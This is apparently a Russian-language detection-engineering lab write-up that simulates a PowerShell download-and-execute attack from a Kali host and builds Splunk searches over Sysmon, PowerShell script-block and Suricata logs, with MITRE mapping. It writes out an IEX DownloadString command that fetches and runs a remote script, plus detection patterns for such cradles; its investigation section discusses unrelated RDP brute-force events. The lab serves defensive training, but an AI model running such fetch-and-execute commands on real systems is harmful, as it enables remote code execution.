








Для эмитации этой атаки, на kali host'e создадим test.ps1, который будет содержать:

    Write-Output "Malicious simulation"
    whoami
    hostname
    Get-Date

Далее сделаем файл доступным по http:

    python3 -m http.server 80

запускать эту команду надо будет с той папки, где лежит файл

# 1. Атака
на winclient, используем команду:

    powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString('http://172.16.10.10/test.ps1')"

# 2. Источник логов (Data Source)
## Sysmon (EventID 1 — Process Create)
search:
    index=windows LogName="Microsoft-Windows-Sysmon/Operational" EventCode=1
    Image="*powershell.exe*"
    (CommandLine="*DownloadString*" OR CommandLine="*Invoke-WebRequest*" OR CommandLine="*IEX*" OR CommandLine="*http://*")
    | table _time host User Image CommandLine ParentImage ParentCommandLine ProcessId ParentProcessId IntegrityLevel

## PowerShell Logging (EventID 4104 — ScriptBlock)
search:
    index=windows LogName="Microsoft-Windows-PowerShell/Operational" EventCode=4104
    (Message="*DownloadString*" OR Message="*Invoke-WebRequest*" OR Message="*IEX*" OR Message="*test.ps1*")
    | table _time host ComputerName User Message

## Suricata — network layer
search:
    index=suricata event_type=alert alert.signature_id=1000011

используем sid наших local.rules

# 3. Detection
    (
        index=windows LogName="Microsoft-Windows-Sysmon/Operational" EventCode=1
        Image="*powershell.exe*"
        (CommandLine="*DownloadString*" OR CommandLine="*Invoke-WebRequest*" OR CommandLine="*IEX*" OR CommandLine="*test.ps1*")
    )
    OR
    (
        index=windows LogName="Microsoft-Windows-PowerShell/Operational" EventCode=4104
        (Message="*DownloadString*" OR Message="*Invoke-WebRequest*" OR Message="*IEX*" OR Message="*test.ps1*")
    )
    OR
    (
        index=suricata event_type=alert alert.signature_id=1000011
    )
    | eval detection_layer=case(
        LogName=="Microsoft-Windows-Sysmon/Operational" AND EventCode=1, "Sysmon ProcessCreate",
        LogName=="Microsoft-Windows-PowerShell/Operational" AND EventCode=4104, "PowerShell ScriptBlock",
        event_type=="alert", "Suricata Alert"
    )
    | eval evidence=case(
        detection_layer=="Sysmon ProcessCreate", CommandLine,
        detection_layer=="PowerShell ScriptBlock", Message,
        detection_layer=="Suricata Alert", payload_printable
    )
    | bin _time span=10m
    | stats values(detection_layer) as detection_layers dc(detection_layer) as layer_count values(evidence) as evidence by _time
    | where layer_count>=2
    | table _time layer_count detection_layers evidence

# 4. alert settings

# 5. triggered alert

# 6. Investigation
Т.к. инфраструктура лабораторной ограничена, то опишу свои действия простыми словами:

При обнаружении множественных неудачных попыток входа по RDP (EventCode 4625) с последующим успешным логоном (4624), я бы сначала подтвердил детект, проверив количество неудачных попыток, источник (IP/хост) и целевую учетную запись. Далее я бы определил, был ли успешный вход выполнен с того же источника, что и неудачные попытки, и проанализировал тип входа (LogonType 10 — RDP).

Затем я бы оценил контекст: является ли активность ожидаемой для данного пользователя, используется ли внешний IP, типичное ли время для этого пользователя и наблюдаются ли аналогичные попытки на других учетных записях (признак password spraying). После этого я бы проверил, какие действия были выполнены после успешного входа — запуск процессов (Sysmon EventID 1), возможные команды, сетевые подключения или попытки закрепления.

Посмотреть информацию по инциденту. Самое важное поле здесь — ProcessGuid: по нему дальше удобно искать дочерние процессы:
    index=windows LogName="Microsoft-Windows-Sysmon/Operational" EventCode=1
    Image="*powershell.exe*"
    (CommandLine="*DownloadString*" OR CommandLine="*Invoke-WebRequest*" OR CommandLine="*IEX*" OR CommandLine="*test.ps1*" OR CommandLine="*http://*")
    | table _time host User ProcessGuid ProcessId Image CommandLine ParentImage ParentCommandLine IntegrityLevel
    | sort _time

Проверить действия после входа:

    index=windows EventCode=1
    | search "powershell.exe" OR "cmd.exe"
    | table _time Image CommandLine User

Параллельно я бы проверил масштаб инцидента: есть ли похожая активность на других хостах или учетных записях, чтобы понять, изолированный это случай или часть атаки. В случае подозрительной активности я бы инициировал реагирование: временно заблокировал учетную запись, ограничил доступ с IP-источника (если возможно), изолировал хост и эскалировал инцидент в IR/DFIR команду.

В завершение я бы задокументировал инцидент, указав источник атак, затронутые учетные записи, количество попыток входа, факт успешной аутентификации и последующие действия злоумышленника.

# 7. MITRE ATT&CK mapping
T1059.001 — Command and Scripting Interpreter: PowerShell

T1105 — Ingress Tool Transfer